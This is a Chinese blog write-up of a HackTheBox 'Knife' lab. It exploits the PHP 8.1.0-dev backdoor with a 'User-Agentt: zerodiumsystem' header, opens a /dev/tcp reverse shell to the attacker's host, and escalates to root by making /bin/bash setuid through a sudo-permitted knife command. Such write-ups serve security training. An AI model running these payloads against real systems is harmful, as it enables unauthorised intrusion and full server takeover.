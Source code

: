 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/RwuQ3-7FRSFuFdHIK-T4QA)<table><tbody><tr><td width="557" valign="top" height="62"><section><strong>声明：</strong>该公众号大部分文章来自作者日常学习笔记，也有少部分文章是经过原作者授权和其他公众号白名单转载，未经授权，严禁转载，如需转载，联系开白。</section><section>请勿利用文章内的相关技术从事非法测试，如因此产生的一切不良后果与文章作者和本公众号无关。</section></td></tr></tbody></table>

感谢群友 @rural 老哥的投稿，感谢分享 ![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOeibyfk9D0ibkDtz55LQT8zLHC9SYk7SWIfYia8I7tCnZbEtiaHicHWA0sMmemsicdIic7yDFjPUqPtCPErg/640?wx_fmt=png) 。在这篇文章详细记录了他打 “HackTheBox-Knife” 靶场的整个过程，希望大家能够从中有所收获。![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOc5ZcSNTBqibEmpic3ibyWnkRLx9tqqTaZMhMEFGau1e7POs9LoCZzqlnOSyl2qO8KACkLY9h4ziaDBJQ/640?wx_fmt=png)  

首先连接 openvpn 实现访问到靶机

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfEfywvAxibqAWOzic0rDicqqtmSdx4J0pKxzCicJEXRmrgN8YDJMic6qFny6tbsvc23I8uum5ZAib0bHNA/640?wx_fmt=png)

ping 一下靶机地址测试网络连通

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfEfywvAxibqAWOzic0rDicqqtdG52Fggm3ATaUrYhKkDplznBdiciblBTe7tEibQhsBmMloiaESI0oUs5eg/640?wx_fmt=png)

nmap 来扫描服务器开了什么端口

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfEfywvAxibqAWOzic0rDicqqtqYhTZAbXmR0c4gRLtUjC6YzngMTtqvNibPbhuM4HLTMCd1iadWKDgEOQ/640?wx_fmt=png)

从这里可以看出靶机开了 22 和 80 端口，随手试了几个 ssh 的弱口令没啥用，只能从 80 端口入手了，先访问网站

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfEfywvAxibqAWOzic0rDicqqt9sEn5ZK96kWRkz6U9XUg0m7ticqy0IZticBQxUfvMtpicMWXODaCMUgcw/640?wx_fmt=png)

首页没发现可以利用的地方，再用 dirsearch 扫一波目录

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfEfywvAxibqAWOzic0rDicqqtccMich4ibyEKTiaWM5iaribulPgCkgU4rEmoFWs0FZic50jvo4ibov1kybPyg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfEfywvAxibqAWOzic0rDicqqtpU0ian0Cn1RvJWOniaVF1HiccQ3KXJsDQ1Sp6k7Kib4lXuUojyLibFIbmJw/640?wx_fmt=png)

扫描出来的目录访问之后没啥作用，我们来识别一波 CMS 用 kali 的 whatweb 来识别一波

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfEfywvAxibqAWOzic0rDicqqtnrF9bJI3bzkicCwVEvQibzyfRM286vuRztbCcj1fFXVPGSmOe4uglabw/640?wx_fmt=png)

这里看到了 X-Powered-By[PHP/8.1.0-dev] 不同寻常百度之后果然有问题，X-Powered-By 是响应头里面的内容会泄露 php 的版本信息，而 PHP/8.1.0-dev 这个版本的 php 会有一个后门

漏洞描述

PHP 8.1.0-dev 版本在 2021 年 3 月 28 日被植入后门，但是后门很快被发现并清除。当服务器存在该后门时，攻击者可以通过发送 User-Agentt 头来执行任意代码。

这边我们直接抓包并发送到重发器试试命令执行的结果

```
User-Agentt: zerodiumsystem("ifconfig");
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfEfywvAxibqAWOzic0rDicqqtSica26BfrkPicD4LxdqWYmC0hJng979lH2nKtK4ibTX4lQyNt3uvnKiaTg/640?wx_fmt=png)

现在就好办了直接反弹 shell，本机 vpn 的 ip

```
bash -c 'exec bash -i &>/dev/tcp/10.10.14.3/4444 <&1'
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfEfywvAxibqAWOzic0rDicqqtqCyYdAQMdicK1kV7Ka1LGsfLVBADnHET9PI7NAwQYtia0tkK5hsfnwHw/640?wx_fmt=png)

而我们在本机用执行 nc 监听端口

```
nc -nvlp 4444
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfEfywvAxibqAWOzic0rDicqqtG3ic9TBwMCgKWQcOwPxF7sDQOOmlIN5FVwB8yaDrnfswycVzJFnVI6Q/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfEfywvAxibqAWOzic0rDicqqtKwZgic4Ut4ABaB4UmdDOf7uZx3xkh2CpePNTmPDNexE94lao3ibgicQ2Q/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfEfywvAxibqAWOzic0rDicqqtxJSmGGHrSO4ndWPAhKOEectqckyMqicSro3DCibribreI8nONO9iaCwbgg/640?wx_fmt=png)

得到反弹的 shell，权限并不高，而且 nc 的 shell 不好用，所以用 python 来得到一个更好用的 shell，好多语言都可以调用 shell，你现在 linux 系统基本自带 python 所以 python 更加方便

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

which python 可以查看有没有 python 语言环境，这里有 python3 环境

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfEfywvAxibqAWOzic0rDicqqtTUwdPHEfWeg3bgZyHEPq6eWXbrmfINnYEibk9gRg65XXB2qbiavRgscg/640?wx_fmt=png)

我们执行语句获取 shell

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfEfywvAxibqAWOzic0rDicqqtbtibuJXqZlERSNcBQ5WfDQMSGPPiaicMtjhprNvqXk7JH9ibgmyibiaG2Nqg/640?wx_fmt=png)

此用户权限较低，我们来提权

```
sudo -l     可以知道我们了不用root密码来执行某些文件
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfEfywvAxibqAWOzic0rDicqqtmcEwBqF2YcRw1nGg0ibtz3xG4rGMxibPIjHwLeIeYaU0yOwF7Rx49tJw/640?wx_fmt=png)

这边可以无密执行 / usr/bin/knife 文件，查看文件发现是 ruby 脚本的文件

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfEfywvAxibqAWOzic0rDicqqt1US5MPW2XfFESKicuCmIEw9SrfvZfN14UOwxEcwic594ib5kQ3bZyIFrQ/640?wx_fmt=png)

搜索了一下这个文件是一个 ruby 的包运行之后提示需要传递一个子命令

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfEfywvAxibqAWOzic0rDicqqt6Vq7dkTg8WCCUWg9Y9rhBNYQZDC7AKLYkcoQLeaQRibGlPFsZd3LqXg/640?wx_fmt=png)

这边是个 setuid 的提权，我找的了一个大佬的解释：

setuid

setuid 是类 unix 系统提供的一个标志位， 其实际意义是 set 一个 process 的 euid 为这个可执行文件或程序的拥有者 (比如 root) 的 uid， 也就是说当 setuid 位被设置之后， 当文件或程序 (统称为 executable) 被执行时, 操作系统会赋予文件所有者的权限, 因为其 euid 是文件所有者的 uid

**举个例子**

setuid 的方法是使用 Linux 的 chmod 指令，我们都习惯给予一个文件类似 “0750” “0644” 之类的权限，它们的最高位 0 就是 setuid 的位置, 我们可以通过将其设为 4 来设置 setuid 位。（tips：设置为 2 为 setgid，同 setuid 类似，即赋予文件所在组的权限）。

```
chmod 4750 文件名
or
chmod u+s 文件名
```

在这个命令执行之后， 我们再通过 ls -l 命令查看文件时， 可以发现文件 owner 权限的 x 位变成了 s ，这就说明 setuid 权限已经被设置， 之后任何 user 执行这个文件时（user 需要有文件的执行权限）， 都会以 root 的权限运行（此文件的 owner 为 root）。所以，针对一个需要被很多 user 以 root 权限执行的文件， 我们可以通过 setuid 来进行操作， 这样就不必为所有 user 都添加 sudo 命令。

**tips**

在使用 setuid 时， 需要保证此文件有被执行的权限（x）， 如果没有执行权限。在使用 ls -l 查看权限时， 会发现 setuid 位被设置为了大写的 S， 这说明 setuid 位没有被设置成功。

原文链接：

https://blog.csdn.net/weixin_44575881/article/details/86552016

这边继续来提权，ruby 执行命令方法 exec，system，和 %x。我们写一个赋予 / bin/bash setuid 的脚本

```
echo “system(‘chmod +s /bin/bash’)” > j.rb
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfEfywvAxibqAWOzic0rDicqqtXqa8At8gV23MXUECvq1LPnD5bnz84kACPKibuWyk0iaO9s1qWRvOSAgQ/640?wx_fmt=png)

我们 james 用户具有执行 knife 的权限并且是以 root 权限运行，所以写一个脚本来给 / bin/bash / 赋予 setuid 位

```
sudo /usr/bin/knife exec j.rb   通过knife执行我们写的脚本
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfEfywvAxibqAWOzic0rDicqqtWzAxmn61ku45TZsIiaO6lEhLicEL1rootImcpXPpr3ciaBN04cNPFgibjQ/640?wx_fmt=png)

sudo 是 linux 系统管理指令，是允许系统管理员让普通用户执行一些或者全部的 root 命令的一个工具

```
/bin/bash -p
```

–posix 这个指令是需要用到 root 权限的，由于设置了 setuid 所以实现了提权

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfEfywvAxibqAWOzic0rDicqqtv8tO5eLWVpozSyTck8U1P86eKarR9Y3JrMybgjZFoauHI5T2FCyneA/640?wx_fmt=png)

这样就可以拿到两个 flag 了

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfEfywvAxibqAWOzic0rDicqqtMicKOPn0rPZ0TYGw4MHicmViaAEZEzjBppH3O2XCu407sjgvM5iciaxE6hA/640?wx_fmt=png)

最后提交拿到胜利！！

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfEfywvAxibqAWOzic0rDicqqtlficz9vl67U8X4TlnVeiaHx7F9GQp2l3kvaFnibUU9kFygSaRfxV08bmg/640?wx_fmt=png)

关注公众号回复 “9527” 可免费获取一套 HTB 靶场文档和视频，“1120” 安全参考等安全杂志 PDF 电子版，“1208” 个人常用高效爆破字典，“0221”2020 年酒仙桥文章打包，还在等什么？赶紧点击下方名片关注学习吧！

公众号

**推 荐 阅 读**

  

  

  

[![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLcAcRDPBsTMEQ0pGhzmYrBp7pvhtHnb0sJiaBzhHIILwpLtxYnPjqKmibA/640?wx_fmt=png)](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247487086&idx=1&sn=37fa19dd8ddad930c0d60c84e63f7892&chksm=cfa6aa7df8d1236bb49410e03a1678d69d43014893a597a6690a9a97af6eb06c93e860aa6836&scene=21#wechat_redirect)

[![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLcIJDWu9lMmvjKulJ1TxiavKVzyum8jfLVjSYI21rq57uueQafg0LSTCA/640?wx_fmt=png)](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247486961&idx=1&sn=d02db4cfe2bdf3027415c76d17375f50&chksm=cfa6a9e2f8d120f4c9e4d8f1a7cd50a1121253cb28cc3222595e268bd869effcbb09658221ec&scene=21#wechat_redirect)

[![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf8eyzKWPF5pVok5vsp74xolhlyLt6UPab7jQddW6ywSs7ibSeMAiae8TXWjHyej0rmzO5iaZCYicSgxg/640?wx_fmt=png)](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247486327&idx=1&sn=71fc57dc96c7e3b1806993ad0a12794a&chksm=cfa6af64f8d1267259efd56edab4ad3cd43331ec53d3e029311bae1da987b2319a3cb9c0970e&scene=21#wechat_redirect)

**欢 迎 私 下 骚 扰**

  

  

![](https://mmbiz.qpic.cn/mmbiz_jpg/XOPdGZ2MYOdSMdwH23ehXbQrbUlOvt6Y0G8fqI9wh7f3J29AHLwmxjIicpxcjiaF2icmzsFu0QYcteUg93sgeWGpA/640?wx_fmt=jpeg)